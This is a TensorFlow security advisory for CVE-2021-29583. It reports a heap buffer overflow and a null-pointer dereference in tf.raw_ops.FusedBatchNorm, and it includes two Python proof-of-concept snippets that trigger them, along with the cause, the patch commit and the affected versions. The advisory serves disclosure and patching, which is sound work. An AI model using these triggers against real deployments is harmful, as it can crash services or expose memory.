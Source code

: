 ## TFSA-2021-072: Heap buffer overflow and undefined behavior in `FusedBatchNorm`

### CVE Number
CVE-2021-29583

### Impact
The implementation of `tf.raw_ops.FusedBatchNorm` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

x = tf.zeros([10, 10, 10, 6], dtype=tf.float32)
scale = tf.constant([0.0], shape=[1], dtype=tf.float32)
offset = tf.constant([0.0], shape=[1], dtype=tf.float32)
mean = tf.constant([0.0], shape=[1], dtype=tf.float32)
variance = tf.constant([0.0], shape=[1], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

If the tensors are empty, the same implementation can trigger undefined behavior
by dereferencing null pointers:

```python
import tensorflow as tf
import numpy as np

x = tf.zeros([10, 10, 10, 1], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/57d86e0db5d1365f19adcce848dfc1bf89fdd4c7/tensorflow/core/kernels/fused_batch_norm_op.cc)
fails to validate that `scale`, `offset`, `mean` and `variance` (the last two
only when required) all have the same number of elements as the number of
channels of `x`. This results in heap out of bounds reads when the buffers
backing these tensors are indexed past their boundary.

If the tensors are empty, the validation mentioned in the above paragraph would
also trigger and prevent the undefined behavior.

### Patches
We have patched the issue in GitHub commit
[6972f9dfe325636b3db4e0bc517ee22a159365c0](https://github.com/galeone/tensorflow/commit/6972f9dfe325636b3db4e0bc517ee22a159365c0).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
